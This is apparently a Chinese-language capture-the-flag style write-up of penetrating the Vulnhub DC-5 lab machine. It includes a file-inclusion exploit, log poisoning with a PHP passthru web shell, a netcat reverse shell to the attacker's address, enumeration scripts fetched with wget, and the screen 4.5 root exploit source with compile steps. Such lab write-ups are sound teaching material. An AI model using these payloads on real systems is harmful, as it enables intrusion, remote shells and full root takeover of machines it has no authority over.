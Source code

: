 ```yaml
---
layout: mypost
title: Vulnhub靶机DC5渗透
categories: [靶机]
---
```


靶机下载地址：[DC5](https://www.vulnhub.com/entry/dc-5,314/)

Kali Linux 地址：192.168.43.110

![](https://z3.ax1x.com/2021/04/25/czCFSA.png)

DC5 地址：192.168.43.85

访问 web 页面

![](https://z3.ax1x.com/2021/04/25/czCew8.png)

![](https://z3.ax1x.com/2021/04/25/czCKYQ.png)

只有这个页面能交互

![](https://z3.ax1x.com/2021/04/25/czClSs.png)

get 方式提交表单

![](https://z3.ax1x.com/2021/04/25/czC3yq.png)

提交一次表单，似乎 footer 就变化一次

目测文件包含漏洞，thankyou.php 在底部调用 footer.php

找个 [字典](https://github.com/TheKingOfDuck/fuzzDicts/) 跑一跑

```bash
dirb http://192.168.43.85 Filenames_or_Directories_All.txt
```

![](https://z3.ax1x.com/2021/04/25/czC2kD.png)

确认了 footer.php 的存在

fuzz 一下

> 在安全测试中，模糊测试（fuzz testing）是一种介于完全的手工渗透测试与完全的自动化测试之间的安全性测试类型。能够在一项产品投入市场使用之前对潜在的应当被堵塞的攻击渠道进行提示。
>
> 模糊测试（fuzz testing)和渗透测试（penetration test）都是属于安全测试的方法，它们有同也有异，渗透测试一般是模拟黑客恶意入侵的方式对产品进行测试，对测试者的执行力要求很高，成本高，难以被大规模应用。而模糊测试，它能够充分利用机器本身，随机生成和发送数据；与此同时，又能够引进业内安全专家在安全性方面的建议。模糊测试其数据具有不确定性，也没有明显的针对性，简单来说就是没有逻辑，没有常理。只要将准备好的那些杂乱的程序插入其中，然后等待bug的出现，而出现的漏洞是测试员们先前无法预知的。

```bash
wfuzz -c -w Filenames_or_Directories_All.txt --hw 66 192.168.43.85/thankyou.php\?FUZZ\=1
```

![](https://z3.ax1x.com/2021/04/25/czCxcn.png)

爆出 file 动态变量

还可以抓包用 thankyou.php?§var§=index.php 得到

或者用 php 伪协议直接读取 thankyou.php 代码也行

```url
http://192.168.43.85/thankyou.php?file=php://filter/read=convert.base64-encode/resource=thankyou.php
```

![](https://z3.ax1x.com/2021/04/25/czkwE6.png)

Base64 解码，其中

![](https://z3.ax1x.com/2021/04/25/czk6vd.png)

可以查看用户信息

```url
http://192.168.43.85/thankyou.php?file=/etc/passwd
```

> 大多 linux 系统的密码都和 /etc/passwd 和 /etc/shadow 这两个配置文件息息相关
> passwd 里储存了用户，shadow 里是密码的hash
> 出于安全考虑 passwd 全用户可读，root可写；shadow 仅root可读写的

![](https://z3.ax1x.com/2021/04/25/czFv1H.png)

尝试把反弹 shell 写入 nginx 服务器日志执行

先爆出可能存在的日志

```payload
/thankyou.php?file=/var/log/nginx/§var§.log
```

![](https://z3.ax1x.com/2021/04/25/czkXV0.png)

![](https://z3.ax1x.com/2021/04/25/czAp24.png)

有 access.log 和 error.log

![](https://z3.ax1x.com/2021/04/25/czAPM9.png)

![](https://z3.ax1x.com/2021/04/25/czAFq1.png)

传个一句话🐎

```shell
<?php passthru($_GET['cmd']); ?>  
```

nginx log 的地址带上 cmd 命令 

```payload
/thankyou.php?file=/var/log/nginx/access.log&cmd=nc 192.168.43.110 996 -c /bin/bash
```

![](https://z3.ax1x.com/2021/04/25/czAQsA.png)

成功上线，用 python 获取标准交互 shell

find sudo 权限不够

去 /tmp 目录下用脚本收集信息

```bash
cd /tmp
which python
which wget
```

用

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh 
chmod +x LinEnum.sh
./LinEnum.sh
```

![](https://z3.ax1x.com/2021/04/25/czEdfO.png)

或者

```bash
wget https://www.securitysift.com/download/linuxprivchecker.py
python linuxprivchecker.py -s
```

![](https://z3.ax1x.com/2021/04/25/czEynA.png)

screen 4.5 很可疑，搜一下现成 exp

![](https://z3.ax1x.com/2021/04/25/czERtf.png)

选择上面那条

```bash
cat /usr/share/exploitdb/exploits/linux/local/41154.sh
```

![](https://z3.ax1x.com/2021/04/25/czE5cQ.png)

直接执行会出错，把里面 c 语言单独提出来

libhax.c

```bash
 cat << EOF > /tmp/libhax.c
> #include <stdio.h>
> #include <sys/types.h>
> #include <unistd.h>
> __attribute__ ((__constructor__))
> void dropshell(void){
>     chown("/tmp/rootshell", 0, 0);
>     chmod("/tmp/rootshell", 04755);
>     unlink("/etc/ld.so.preload");
>     printf("[+] done!\n");
> }
> EOF
```

编译得到 libhax.so

```bash
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
```

rootshell.c

```bash
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
```

编译得到 rootshell

```bash
gcc -o /tmp/rootshell /tmp/rootshell.c
```

然后复制 41154.sh

```bash
cp  /usr/share/exploitdb/exploits/linux/local/41154.sh /tmp
```

修改得新 41154.sh 如下

![](https://z3.ax1x.com/2021/04/25/czVbKH.png)

将  libhax.so、rootshell、新41154.sh 上传靶机

```bash
cp /tmp/libhax.so /var/www/html
cp /tmp/rootshell /var/www/html
cp /tmp/41154.sh /var/www/html
```

```bash
sudo service apache2 start
```

```bash
wget http://192.168.43.110/libhax.so
wget http://192.168.43.110/rootshell
wget http://192.168.43.110/41154.sh
```

回想应该直接用 python，多此一举了...

执行脚本

```bash
chmod +x 41154.sh
./41154.sh
```

会出错

```bash
bash: ./41154.sh: /bin/bash^M: bad interpreter: No such file or directory
```

查得该 sh 作者用 windows 环境开发

用 vi / vim 修改

```vim
:set ff
:set ff=unix
:wq
```

再用 bash 执行

```bash
bash ./41154.sh
```

![](https://z3.ax1x.com/2021/04/25/czZIwn.png)

提权成功

![](https://z3.ax1x.com/2021/04/25/czZ7F0.png)

Pwned！